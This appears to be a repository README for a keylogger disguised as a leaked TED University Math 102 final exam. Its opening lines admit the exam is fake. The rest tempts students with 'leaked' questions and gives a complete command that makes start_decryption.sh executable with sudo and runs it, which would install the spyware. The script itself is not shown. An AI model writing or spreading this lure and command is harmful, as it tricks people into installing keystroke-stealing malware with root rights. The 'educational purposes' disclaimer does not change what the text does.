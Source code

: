 This program is a keylogger that is sold under the name "Tedu_mat102_final_questions_2024". "exam" related content in this file is fake and not a real document.
This program is only for educational purposes 

# Tedu_mat102_final_questions_2024

Tedu_mat102_final_questions_2024 is leaked y'all!🔥🔥🔥

TED University Math 102 Final Exam text file is encrypted for security reasons.
Software requirements: Ubuntu 18.04 LTS or later

To start decryption, run 'cd "path/to/Tedu_mat102_final_questions_2024" && sudo chmod +x start_decryption.sh && ./start_decryption.sh'
After the encryption is complete, the txt file will appear in your Tedu_mat102_final_questions_2024 folder
